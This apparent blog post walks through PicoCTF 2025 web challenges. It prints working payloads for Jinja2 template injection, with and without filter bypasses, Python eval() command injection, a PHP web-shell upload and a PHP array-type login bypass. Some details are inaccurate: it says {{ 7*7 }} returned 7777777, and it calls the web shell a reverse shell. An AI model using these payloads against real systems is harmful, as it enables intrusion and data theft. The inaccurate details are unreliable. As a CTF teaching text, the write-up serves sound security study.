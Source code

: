 ```yaml
---
title: 'PicoCTF 2025'
date: '2025-04-01'
tags: ['picoCTF', 'picoCTF-2025']
draft: false
summary: 'Writeups for the web challenges in PicoCTF 2025, including SSTI, RCE, and filter bypasses.'
authors: ['default']
---
```


Here you'll find writeups for how I solved the challenges from PicoCTF 2025, across all categories — from web and pwn to reverse engineering, crypto, and more.  
Each writeup includes my thought process, techniques, and the final solution.

<TOCInline
  toc={props.toc}
  exclude={['Bypassing Filters', 'Identifying the Template Engine', 'Exploitation']}
/>

# WEB

## SSTI1

From the challenge title, it's clear we're dealing with **Server-Side Template Injection (SSTI)**. I tested various payloads to identify the template engine.

### Identifying the Template Engine

The payload `{{ 7*7 }}` returned `7777777`, confirming the engine is **Jinja2**.

### Exploitation

To confirm command execution:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

Then I used:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

And successfully retrieved the flag.

> Reference: [PortSwigger SSTI Guide](https://portswigger.net/web-security/server-side-template-injection)

---

## SSTI2

The vulnerability was confirmed using:

```jinja
{{ 7 * '7' }}
```

Which returned `7777777`.

### Bypassing Filters

This obfuscated payload bypasses filters and executes code:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('id') | attr('read')() }}
```

To read the flag:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('cat flag') | attr('read')() }}
```

> Reference: [SSTI with Jinja2 - OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
> Helpful: [SSTI - Medium](https://medium.com/@yadav-ajay/ssti-server-side-template-injection-746dda439038)

---

## n0s4n1ty 1

This challenge allowed uploading `.php` files disguised as images. I injected a PHP reverse shell into the file.

Uploaded to `/uploads/index.php`, then triggered command execution with:

```
/uploads/index.php?cmd=sudo cat /root/flag.txt
```

> Helpful: [Simple PHP reverse shell](https://medium.com/@tareshsharma17/simple-php-reverse-shell-061d4a6bd18d)

---

## HEAD-DUMP

The app includes an API GUI in one article. Among the documented endpoints, `/headdump` dumps memory contents.

![API Docs](https://blog.qz.sg/content/images/size/w1000/2025/03/head-dump-apidocs.webp)
![Memory Dump](https://blog.qz.sg/content/images/2025/03/head-dump-headdump.webp)

I downloaded the dump and ran:

```bash
grep -E "picoCTF{.*}" heapdump-*.heapsnapshot
```

Which revealed the flag.

---

## Cookie Monster Secret Recipe

After attempting login with `admin:password`, I noticed a cookie named `secret_recipe`.

![App Screenshot](https://blog.qz.sg/content/images/2025/03/cookie_monster_secret_recipe-site.webp)
![Cookie Screenshot](https://blog.qz.sg/content/images/2025/03/cookie_monster_secret_recipe-cookie.webp)

The cookie is base64-encoded. I decoded it using CyberChef to get the secret.

---

## 3vl1

This challenge is a calculator using `eval()` to process inputs. From the HTML source:

![Source Code](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*K1HYLTpExgKko7Apz3SRGw.png)

1. Dynamically import subprocess:

   ```python
   __import__('subprocess')
   ```

2. Use `getattr()` to avoid detection:

   ```python
   getattr(__import__('subprocess'), 'check_output')
   ```

3. Obfuscate command with `chr()`:

   ```python
   chr(99)+chr(97)+chr(116)  # "cat"
   chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)  # "/flag.txt"
   ```

4. Final payload:

   ```python
   getattr(__import__('subprocess'), 'check_output')(['cat', '/flag.txt'])
   ```

Executed through the input field to read the flag.

---

## Aprite Sesamo

We're blocked from logging in. But devs left clues suggesting backup file extensions like `.old`, `.backup`, `~`.

We exploit PHP’s weak typing and `sha1()` behavior with arrays. Send POST data as arrays:

```
username[]=123&pwd[]=456
```

This makes:

```php
$yuf85e0677 = $_POST['username']; // Array
$rs35c246d5 = $_POST['pwd'];     // Array
```

Then `sha1(array)` returns `null`. So:

```php
sha1($yuf85e0677) === sha1($rs35c246d5)
```

Evaluates to `null === null`, which is `true`.

Login bypassed.

![Login Trick](https://miro.medium.com/v2/resize:fit:720/format:webp/1*wBfignfXwwRhmRRa84AHiw.png)